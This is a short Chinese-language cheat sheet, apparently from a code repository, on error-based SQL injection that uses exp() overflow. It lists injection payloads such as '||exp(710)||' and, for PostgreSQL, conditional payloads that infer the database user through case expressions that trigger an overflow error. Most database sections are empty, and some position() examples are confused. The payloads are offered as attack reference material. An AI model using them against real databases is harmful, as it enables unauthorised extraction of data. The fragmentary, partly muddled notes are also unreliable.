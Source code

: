 # Common

## exp(x)

> 用于计算 e 的 x 次幂（即自然对数的指数）。当 x 超过一定的值时，结果会非常大，甚至超出数据库可以处理的范围，从而导致错误或异常。

```
'||exp(709)||'
在大多数数据库中，exp(709) 是能够计算的最大值之一。这条语句的执行不会导致异常，系统能够正常返回结果。
'||exp(710)||'
计算 exp(710) 会产生一个非常大的数字，通常超过了数据库能够表示的范围，从而导致溢出错误或异常（如数值超出范围或溢出错误）。
```

- MySQL：可能在处理 exp(710) 时返回错误。
- Oracle：可能抛出数值溢出异常。
- PostgreSQL：可能返回数值超出范围的错误。
- SQL Server：可能因为超出数值范围而引发异常。


# Mysql

```

```

# Mssql

```

```

# Oracle

```

```

# PostgreSQL

```
'||case length(user) when 1 then 1 else exp(710) end||'
position('sql' in 'postgresql')返回的是8
position('sq' in 'postgresql')返回的也是8
position('p' in 'postgresql')返回的则是1
'||case ascii(position('a' in user)) when 1 then 1 else exp(710) end||'
```

# Refences

- https://forum.butian.net/share/3648
- 
